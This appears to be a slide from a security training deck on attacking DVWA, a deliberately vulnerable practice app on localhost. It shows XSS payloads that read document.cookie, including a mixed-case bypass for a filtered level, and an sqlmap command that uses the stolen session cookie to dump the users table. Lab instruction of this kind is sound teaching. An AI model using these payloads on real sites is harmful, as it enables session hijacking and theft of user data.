

# Steps to Perform the Attack using SQLMap
Step 5: Inject XSS to steal the cookie by using this below script:
<script>alert(document.cookie)</script> (if security is Low)
<sCriPt>alert(document.cookie)</sCriPt> (if security is Medium)
Step 6: So we will get the Session ID of that website and then we can go to terminal and use SQLMap tool with the stolen session ID.
sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" \--cookie="PHPSESSID=dc23497a99a456cc7fd32e559a377863; security=low" \ -D dvwa -T users --dump --batch
This shows table names, columns, and full user data.